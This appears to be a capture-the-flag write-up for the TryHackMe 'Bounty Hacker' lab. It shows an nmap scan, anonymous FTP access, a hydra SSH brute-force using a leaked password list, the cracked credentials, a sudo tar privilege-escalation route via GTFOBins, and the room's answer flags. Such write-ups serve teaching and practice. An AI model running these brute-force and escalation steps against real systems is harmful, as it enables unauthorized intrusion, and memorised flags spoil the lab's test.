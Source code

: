 ![image](https://github.com/prox11/CTF-Writeups/assets/148764185/ccb6288b-27b5-461b-9482-ee3c2c306fa7)


# Bounty Hacker

## Nmap

**nmap -A -sC 10.10.161.185**
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-25 19:35 CET
Nmap scan report for 10.10.161.185
Host is up (0.061s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.146.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.65 seconds
```

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/5f1f5963-3344-431b-bc57-91218a2e1a10)

## FTP

**ftp 10.10.161.185**

login name: anonymous

```
Connected to 10.10.161.185.
220 (vsFTPd 3.0.3)
Name (10.10.161.185:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

**get locks.txt**

**get task.txt**

task.txt: 
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
locks.txt:
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

**hydra -l lin -P locks.txt ssh://10.10.161.185**

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/e4553b5e-1ad6-48d6-9686-76e54c16a158)

Username: lin

Password: RedDr4gonSynd1cat3

## Priv Esc

**ssh lin@10.10.161.185**

```
The authenticity of host '10.10.161.185 (10.10.161.185)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.161.185' (ED25519) to the list of known hosts.
lin@10.10.161.185's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
```

**sudo -l**
```
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

https://gtfobins.github.io/gtfobins/tar/#sudo

![image](https://github.com/prox11/CTF-Writeups/assets/148764185/b75839e2-8074-4aab-997c-a1348796b216)

<details>
    <summary>Who wrote the task list? </summary>
  
    lin
</details>

<details>
    <summary>What service can you bruteforce with the text file found?</summary>
  
    ssh
</details>

<details>
    <summary>What is the users password? </summary>
  
    RedDr4gonSynd1cat3
</details>

<details>
    <summary>user.txt</summary>
  
    THM{CR1M3_SyNd1C4T3}
</details>

<details>
    <summary>root.txt</summary>
  
    THM{80UN7Y_h4cK3r}
</details>
